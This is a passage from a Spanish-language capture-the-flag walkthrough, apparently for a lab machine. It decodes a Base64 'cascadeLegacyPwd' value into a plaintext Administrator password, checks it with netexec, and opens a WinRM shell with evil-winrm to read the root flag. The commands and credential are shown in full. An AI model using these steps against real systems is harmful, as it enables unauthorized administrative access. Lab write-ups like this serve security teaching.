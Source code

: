 Comprobamos que en un campo aparece "cascadeLegacyPwd" con lo que parece ser una contraseña encodeada nuevamente en Base64.

<figure><img src="../../../.gitbook/assets/1262_vmware_B76Yo3kBZZ.png" alt=""><figcaption></figcaption></figure>

Procederemos a desencodear y nos aparece una contraseña en texto plano, validaremos con **netexec** de que las credenciales son válidas para el usuaro Administrator, nos conectarmos haciendo uso de **evil-winrm** y comprobaremos la flag de **root.txt**.

{% code overflow="wrap" fullWidth="false" %}
```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo

netexec winrm 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'

evil-winrm -i 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
